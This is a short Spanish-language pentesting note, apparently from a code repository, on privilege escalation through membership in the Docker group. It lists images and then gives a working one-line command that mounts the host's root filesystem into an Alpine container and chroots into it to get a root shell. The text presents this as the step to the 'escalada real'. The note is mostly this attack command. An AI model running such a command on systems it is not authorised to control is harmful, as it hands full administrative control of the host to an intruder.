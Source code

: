 # Privesc Mediante el grupo Docker

Comando para listar las images
`docker images`

Para proceder a montarnos un docker de la /Raiz/ con la imagen de alpine en el directorio /mnt y que nos spawne una consola sh
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Accedemos como root en el Docker.. pero poseemos todos los privilegios del sistema como administrador para cambiar permisos de archivos. Procediendo asi a la escalada real.
 
